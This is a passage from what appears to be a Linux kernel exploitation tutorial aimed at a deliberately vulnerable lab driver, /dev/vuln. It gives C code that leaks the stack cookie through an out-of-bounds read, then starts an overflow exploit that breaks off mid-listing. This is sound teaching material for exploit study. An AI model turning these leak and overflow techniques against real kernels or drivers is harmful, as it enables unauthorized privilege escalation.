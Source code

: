 ```c
        if (fd < 0){ printf("Open Error: %s\n", FILE); _exit(-1); }

        int r = read(fd, leak, sizeof(leak));

        for(int i = 0;i < size;i++)
                fprintf(stdout, "leak[%d]: %p\n", i, leak[i]);
        return 0;
}

``` 


> The `C` script above will be compiled as a statically-linked binary locally and added to the rootfs filesystem. 

Compile the above C code using the following GCC command

```sh
gcc -o chall chall.c -static
```

Copy this file into the `rootfs` directory and re-archive the new file system to *cpio.gz*. This process will be repeated multiple times but as `ChatGPT` says: _"A task repeated multiple times may be automated by scripting once."_

The bash-script [here](https://github.com/mutur4/Linux-Kernel-Build-Scripts/blob/main/bash.sh) will be used to automate the task of compiling the above `C` code, copying it into the rootfs, archiving this filesystem and finally running `qemu`.

When the emulator is restarted the compiled `chall` binary is now in the file system. Before running it, we need to attach a debugger and set the previous break-point before the *copy_to_user* function. Continue execution and now running `chall` will hit the breakpoint. At this point we expect the stack-cookie right after the buffer to be leaked since the `C` script reads 40 bytes `Out-Of-Bounds` compared to the 24 bytes allocated for the buffer on the stack. 


![leak](https://i.imgur.com/KRepBDr.png)

This leak will be essential in bypassing the implement stack-cookie. 

### Stack Buffer Overflow

Now to the real deal, the *vuln_write()* function defined in the loadable module is vulnerable to a stack-buffer overflow when more that `0x20` are written to the device driver interface `/dev/vuln`. Modify the above `C` script as follows to write `0x28` bytes on the stack and also return the leaked stack-cookie. 

```c

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>

#define FILE "/dev/vuln"

static long stack_cookie = 0x0;

int main(void){
        unsigned int size = 5;
        unsigned int overflow_size = 8;

        uint64_t leak[size];

        int fd = open(FILE, O_RDWR);
        if (fd < 0){ printf("Open Error: %s\n", FILE); _exit(-1); }

```